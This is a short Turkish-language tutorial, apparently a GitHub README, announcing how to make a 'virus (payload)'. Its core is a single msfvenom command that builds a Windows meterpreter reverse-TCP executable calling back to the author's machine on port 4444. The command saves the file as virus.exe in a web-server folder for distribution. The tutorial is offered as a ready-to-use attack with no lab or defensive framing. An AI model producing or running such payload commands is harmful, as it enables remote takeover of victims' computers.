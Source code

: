 ## Selam Ben Linax Ve Bugun Sizlere Nasil Virus(payload) Olusturulucagini Anlaticam.
## Oncelikle Terminali Aciyoruz Ve msfvenom Ile Komutumuzu Yaziyoruz.
## msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local Ipniz> LPORT=4444 -f exe > /var/www/html/virus.exe 
![Screenshot_2022-07-17_06_44_33](https://user-images.githubusercontent.com/100614268/179394888-468d8bdc-a63e-4727-9d5c-c055d0379a82.png)

